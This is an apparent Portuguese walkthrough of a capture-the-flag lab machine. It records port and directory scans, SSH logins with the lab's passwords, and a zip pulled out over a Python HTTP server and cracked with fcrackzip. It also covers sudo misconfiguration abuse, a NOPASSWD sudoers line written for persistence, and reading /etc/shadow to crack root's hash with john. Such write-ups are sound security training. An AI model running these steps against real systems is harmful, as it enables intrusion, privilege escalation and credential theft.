

maq.bashpariencias
nmap 172.18.0.2 -sS -sC -sV --open -p- -T5 -n -Pn
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/big.txt -x txt,php,html -t 50
USUÁRIO: rosa
CODIGO FONTE: possivel USUARIO e SENHA: rosa: lacagadenuevo

ssh rosa@172.18.0.2 -p 8899
COMANDO OU FERRAMENTA TREE, para ver as pasta e arquivos no formato de arvore:
rosa@24a31f416546:/home$ tree

Análise da Saída
- Estrutura Hierárquica:
.: Refere-se ao diretório atual, que é/home.├── carlos [error opening dir]: Indica que o diretóriocarlosexiste, mas não pôde ser aberto (possivelmente por causa de permissões).├── juan [error opening dir]: O mesmo ocorre para o diretóriojuan.├── megasecret.txt: Este é um arquivo que está no diretório/home.├── rosa: Este diretório contém um subdiretório-, que parece ter dois arquivos:backup_rosa.zipeirresponsable.txt.
TRANSFERÊNCIA DE ARQUIVO PELO SERVIDOR python3 -m http.server para a maquina atacante.
MAQUINA ATACANTE BAIXOU O ARQUIVO ZIP PELO NAVEGADOR http://172.18.0.2:8000/

COMANDO DE FORÇA BRUTA PARA SABER A SENHA DO ARQUIVO backup_rosa.zip.
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt backup_rosa.zip
found file 'password.txt', (size cp/uc 25/ 13, flags 9, chk 1b29)
PASSWORD FOUND!!!!: pw == " 123123" senha de ROSA
MÁQUINA ATACANTE
MÁQUINA VITIMA
SENHA USUÁRIO JUAN : hackwhitbash
EXPLICAÇÃO DO COMANDO sudo -l
O comando sudo -l é uma ferramenta útil em sistemas baseados em Unix e Linux,
que permite aos usuários verificar quais comandos eles podem executar com permissões elevadas usando o sudo.
Aqui está uma explicação detalhada de como o comando funciona e o que cada parte da saída representa:
sudo: Este comando permite que um usuário execute comandos com os privilégios de outro usuário, normalmente o superusuário (root). É uma maneira de realizar operações que requerem permissões elevadas sem precisar fazer login como root.
-l: Esta opção significa "listar". Ao usá-la, você solicita aosudoque liste as permissões do usuário atual, ou seja, quais comandos ele pode executar comsudo.
O Que o Comando Faz
- Verificação de Permissões: Quando você executa
sudo -l, o sistema verifica as regras no arquivo de configuração dosudo(/etc/sudoers) e retorna as permissões específicas que se aplicam ao usuário que executa o comando.
- Informações do Usuário: O comando lista quais comandos o usuário pode executar e sob quais condições, como se precisa ou não fornecer uma senha.
Vamos analisar a saída do comando sudo -l linha por linha e entender o que cada parte significa.
- 1.
1.
Matching Defaults entries for juan on 24a31f416546:
Esta linha indica que as configurações padrão do sudo aplicáveis ao usuário juan na máquina chamada 24a31f416546 estão sendo mostradas.
- 2.
2.
env_reset, mail_badpass,
Estas são opções padrão do sudo que se aplicam a juan:
env_reset: Esta opção faz com que osudoredefina as variáveis de ambiente para um conjunto seguro antes de executar um comando. Isso é feito para evitar que variáveis potencialmente inseguras (comoPATH, que pode ser manipulada) afetem a execução do comando.
mail_badpass: Quando essa opção está habilitada, se um usuário tenta usarsudoe falha na autenticação (ou seja, a senha está errada), osudopode enviar um e-mail ao administrador do sistema informando sobre a falha. É uma medida de segurança para monitorar tentativas de acesso não autorizado.
- 3.
3.
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
Esta linha define um caminho seguro para os executáveis que o sudo pode acessar. Isso significa que, ao executar comandos com sudo, o PATH será redefinido para incluir apenas esses diretórios, aumentando a segurança, pois impede a execução de comandos potencialmente maliciosos que poderiam estar em outros diretórios.
- 4.
4.
use_pty
Esta opção permite que o sudo use um terminal pseudo (pty). Isso pode ser útil para manter o comportamento interativo dos comandos executados, permitindo que eles funcionem corretamente em um terminal, como no caso de comandos que esperam interações do usuário.
- 5.
5.
User juan may run the following commands on 24a31f416546:
Esta linha indica que a lista a seguir mostrará quais comandos o usuário juan pode executar com sudo.
- 6.
6.
(carlos) NOPASSWD: /usr/bin/tree
(carlos): Isto significa quejuanpode executar o comando sob a identidade do usuáriocarlos.NOPASSWD:: Esta parte indica quejuannão precisa fornecer uma senha ao executar o comando especificado. Isso é útil para automatizar tarefas onde a entrada de senha seria um obstáculo./usr/bin/tree: Este é o caminho completo para o comandotree, que é uma ferramenta que exibe a estrutura de diretórios de forma hierárquica.
- 7.
7.
(carlos) NOPASSWD: /usr/bin/cat
A mesma explicação se aplica a esta linha:
juanpode executar o comandocatsob a identidade do usuáriocarlossem precisar fornecer uma senha.
Resumo
A saída do comando sudo -l informa que o usuário juan pode executar os comandos tree e cat como o usuário carlos, sem necessidade de senha. Isso fornece uma oportunidade para juan acessar informações que normalmente não poderia, usando os comandos permitidos. Por exemplo, ele pode listar o conteúdo de diretórios que pertencem a carlos ou visualizar arquivos com cat, contornando as permissões normais de acesso.

SENHA USUÁRIO CARLOS: chocolateado
O Que Aconteceu?
- • • Comando Executado: echo 'carlos ALL=(ALL) NOPASSWD: ALL' | sudo tee /etc/sudoers.d/carlos
- A linha
carlos ALL=(ALL) NOPASSWD: ALLfoi adicionada ao arquivo/etc/sudoers.d/carlos.
- Isso significa que o usuário
carlosagora pode executar qualquer comando como qualquer usuário (incluindo root) sem ser solicitado a fornecer uma senha.
•COMANDO PARA ABRIR UMA NOVA SHELL MAS AGORA COMO ROOT: sudo -i
O que isso faz? Abre uma nova shell como root, permitindo que vocĂȘ execute comandos com privilĂ©gios elevados.
EXPLORANDO A MAQUINA :
cat shadow
HASHES ROOT
COMANDO PARA QUEBRAR A hashes.txt do usuario root:
john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt hashes.txt
SENHA ROOT: 1234567890

BOB MARLEY